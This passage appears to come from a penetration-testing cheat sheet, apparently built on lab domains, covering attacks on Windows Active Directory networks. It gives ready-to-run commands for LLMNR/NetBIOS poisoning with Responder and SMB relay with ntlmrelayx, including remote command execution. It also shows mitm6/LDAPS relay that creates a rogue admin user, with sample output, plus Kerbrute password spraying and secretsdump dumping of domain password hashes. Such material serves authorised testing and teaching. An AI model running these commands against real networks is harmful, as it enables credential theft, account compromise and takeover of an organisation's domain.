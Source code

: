 
If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.
#### SMB Relay via ntlmrelayx
> If you cannot crack hashes gathered w/ Responder, you can relay those hashes to attempt gaining access

**Steps**:
1. Identify hosts without SMB signing *required*: `nmap --script=smb2-security-mode.nse -p445 <IP range>` or `nxc smb 10.0.2.0/24 --gen-relay targets.txt`
>> Relayed user credentials should be admin on machine for real value
2. Ensure Responder is configured to have SMB and HTTP capturing **OFF**, this enables relaying: `sudo nano /etc/responder/Responder.conf`
3. Run responder: `sudo responder -I eth0 -dw`
4. Run ntlmrelay: `ntlmrelayx.py -tf targets.txt -smb2support`
	- Dumps SAM/Captures NTLMv1 hashes
		- Optionally, run commands directly: `ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`
#### MITM6 - Create a shadow user
>If IPv6 is not in use in the environment, you can attack LDAP using ntlmrelayx/mitm6 combo.
1. Start ntlmrelayx: `ntlmrelayx.py -6 -t ldaps://10.0.2.7 -wh wpad.lifeline.local -l lootme`
2. Start mitm6: `sudo mitm6 -d lifeline.local`

When you see ACE and ACL mentioned, you've likely compromised the DC and a custom user would then be built by MITM6.

Look for lines like `Adding new user with username`: 
```
TypeName: {'ACCESS_ALLOWED_ACE'}

        IdentifierAuthority:{
            Value: {'\x00\x00\x00\x00\x00\x05'}
        }
        SubLen: {20}
        SubAuthority: {'\x15\x00\x00\x00=\xc8\xc0M\xd0w7tS\xd3\x92\xe2\x07\x02\x00\x00'}
    }
}
TypeName: {'ACCESS_ALLOWED_ACE'}
[*] User privileges found: Create user
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Adding new user with username: qmsgntJvqi and password: V&Vr|.3[U67`C~Y result: OK
```
#### Kerbrute
`kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results`
> Enumerate Active Directory users to compile a list of valid password-spraying targets

`kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`
> Perform a password spraying attack using the Kerbrute tool

#### Secretsdump.py
`secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss`
>Dump the NTDS Active Directory database to retrieve NTLM password hashes for all domain users for offline cracking
#### PowerShell
| `Import-Module ActiveDirectory`                                | Load the built-in Active Directory PowerShell module on a Windows host                                          |     |
| -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------- | --- |
| `Get-ADUser -Filter * \| select Name`                          | List all domain users using the Active Directory PowerShell module Get-ADUser cmdlet and filter by the username |     |
| `Get-DomainUser * \| Select-Object samaccountname,description` | Check the description field of all domain users for sensitive data such as passwords                            |     |
### Another Perspective on Uncredentialed Lateral Movement
See [Penetration Test Playbook](../../1.%20Overviews/Penetration%20Test%20Playbook.md) Uncredentialed Lateral Movement